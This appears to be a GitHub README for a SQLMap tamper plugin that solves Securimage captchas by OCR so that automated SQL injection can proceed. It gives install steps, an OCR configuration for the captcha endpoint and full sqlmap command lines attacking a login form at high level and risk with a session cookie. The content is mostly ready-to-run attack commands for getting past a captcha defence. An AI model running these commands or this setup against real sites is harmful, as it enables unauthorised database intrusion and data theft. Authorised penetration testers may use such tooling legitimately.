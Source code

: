 ## Securimage Tamper

SQLMap tamper for breaking securimage captcha!

![Images](https://github.com/Diskominfo-Kota-Serang/securimagetamper/blob/master/assets/README.png)

# Installation

Ubuntu

```
sudo apt-get install tesseract-ocr-eng imagemagick catimg
```

Then

```
pip install pytesseract
```

Put files into `sqlmap/tamper` or any related to sqlmap `tamper` folder

# Usages

Always make `--tamper` have spaces between `--tamper` and `securimage`. Examples: `--tamper securimage jsonpath`

Below is Full Usages of json object

```
{
  "images": "http://example.com/lib/securimage/securimage_show.php",
  "parameters": "captcha_code",
  "headers": { "Cookie": "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" },
  "mode": "math",
  "config": {
    "convert": "-colorspace Gray -blur 3x1 -morphology Erode Diamond:1x8 -level 50%",
    "tesseract": "--psm 13 --oem 1 --dpi 150 -c tessedit_char_whitelist=1234567890x-+/"
  }
}
```

Note: Cookie should be manual inputed & never use automatically session, The json path input should be full path


## securimage tamper have 3 modes

- ###### math

Automatically evaluate math expressions

- ###### character

Manually input character

- ###### easy

Automatically input easy recognize character

### Full Examples

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper secureimage mysecurimagetamper.json
```

### Examples With Another Tamper

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper=varnish,luanginx --tamper secureimage mysecurimagetamper.json
```
